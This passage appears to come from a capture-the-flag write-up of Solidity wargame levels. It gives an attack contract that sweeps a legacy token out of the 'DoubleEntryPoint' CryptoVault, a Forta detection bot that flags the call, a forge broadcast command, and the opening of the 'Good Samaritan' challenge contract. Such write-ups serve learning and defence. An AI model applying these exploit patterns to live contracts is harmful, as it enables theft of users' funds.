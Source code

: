 ```javascript

contract Attack{
    DoubleEntryPoint public det = DoubleEntryPoint(0xaf69EbD36B5465a0764Db0FE4dE0040780F6533C);
    address public  cryptovault = det.cryptoVault();
    address public player = det.player();
    address public delegatedFrom = det.delegatedFrom(); // Legacy Token Address
    function exploit() public{
        CryptoVault cv = CryptoVault(cryptovault);

        cv.sweepToken(IERC20(delegatedFrom));

    }

}

contract DetectionBot{

    DoubleEntryPoint public det = DoubleEntryPoint(0xaf69EbD36B5465a0764Db0FE4dE0040780F6533C);
    address public  cryptovault = det.cryptoVault();

    function handleTransaction(address user, bytes calldata msgData) external {
        address origSender;

        assembly {
            origSender := calldataload(0xa8)
        }

        if (origSender ==cryptovault ){
            Forta(msg.sender).raiseAlert(user); // raise alert of Forta contract
        }
    }
}

```

To run script : 

```bash
$ source .env
$ forge script script/DoubleEntryPointSolve.s.sol:DoubleEntryPointSolve --rpc-url $RPC_URL --broadcast
```

# 27 Good Samaritan

`GoodSamaritan.sol`

```javascript
// SPDX-License-Identifier: MIT
pragma solidity >=0.8.0 <0.9.0;

import "openzeppelin-contracts/contracts/utils/Address.sol";

contract GoodSamaritan {
    Wallet public wallet;
    Coin public coin;

    constructor() {
        wallet = new Wallet();
        coin = new Coin(address(wallet));

        wallet.setCoin(coin);
    }

```